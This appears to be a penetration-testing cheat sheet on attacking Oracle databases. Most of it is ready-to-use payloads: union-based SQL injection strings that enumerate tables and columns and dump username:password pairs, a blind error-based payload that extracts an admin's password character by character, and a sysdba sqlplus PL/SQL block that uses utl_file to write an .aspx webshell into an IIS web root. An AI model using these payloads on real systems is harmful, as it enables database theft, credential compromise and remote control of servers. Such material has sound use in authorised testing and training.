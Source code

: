 # Oracle - sqlplus

<pre class="language-sql"><code class="lang-sql">'union select null,null from dual-- -
'union select null,table_name from all_tables-- -
'union select null,owner from all_tables-- -
'union select null,table_name from all_tables where owner = 'john'-- -
'union select null,column_name from all_tab_columns where table_name = 'users'-- -
'union select null,username||':'||password from users-- -

' order by 4--
' union select null,null,null from dual--
all_tables instead of information_schema.tables
all_tab_columns instead of information_schema.columns 
<strong># Example:
</strong>' union select column_name,null,null from all_tab_columns where table_name="ADMINS"--
</code></pre>

## Blind

{% code overflow="wrap" %}
```sql
# Oracle - fuzz first char, try on Burp first to go ahead later w/ Python script
'||(select case when substr(password,1,1)='a' then to_char (1/0) else '' end from users where username='admin')||'
```
{% endcode %}

## sqlplus&#x20;

{% hint style="info" %}
#### AN ALTERNATIVE MIGHT BE DBEAVER
{% endhint %}

{% code overflow="wrap" %}
```sql
# First we check our privs connected as sysdba:
sqlplus $user/$pass@$IP/$SID as sysdba
SQL > select * from session privs;

# If we have enough privs, we can use this payload to upload files such a .aspx webshell (use locate it on Kali) to an ISS server for example.
declare
    f utl_file.file_type;
    s varchar(5000) := '$SHELLCODE HERE';
begin
    f := utl_file.fopen('/inetpub/wwwroot', 'webshell.aspx', 'W');
    utl_file.put_line(f,s);
    utl_file.fclose(f);
end;
/

# NOTE: the shellcode should be smaller than 1000 characters.

# We can switch from writing a file to reading a file by changing 'W'
# / is the last part which executes the SQL sentences.
```
{% endcode %}
